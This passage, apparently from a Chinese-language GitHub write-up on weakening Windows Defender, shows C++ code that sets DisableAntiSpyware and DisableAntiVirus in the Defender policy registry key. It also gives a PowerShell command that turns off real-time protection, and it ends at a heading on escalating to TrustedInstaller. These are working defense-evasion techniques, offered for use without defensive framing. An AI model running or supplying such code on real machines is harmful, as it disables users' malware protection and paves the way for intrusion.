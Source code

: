 ```cpp
    // 关闭注册表键
    RegCloseKey(hKey);

    if (result != ERROR_SUCCESS) {
        std::cerr << "设置注册表值失败: " << valueName << " 错误码: " << result << std::endl;
        return false;
    }
    
    return true;
}

int main() {
    const char* subKey = "SOFTWARE\\Policies\\Microsoft\\Windows Defender";
    // 设置两个注册表键值
    if (SetRegistryValue(HKEY_LOCAL_MACHINE, subKey, "DisableAntiSpyware", 1) &&
        SetRegistryValue(HKEY_LOCAL_MACHINE, subKey, "DisableAntiVirus", 1)) {
        std::cout << "注册表键值设置成功!" << std::endl;
    } else {
        std::cerr << "设置注册表键值失败." << std::endl;
    }

    return 0;
}
```



# Powershell关闭Defender实时保护

执行如下Powershell命令可以关闭Windows Defender的实时保护

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

![image-20230721173120971](WeakDefender/image-20230721173120971.png)



# 提权至Trustedinstaller
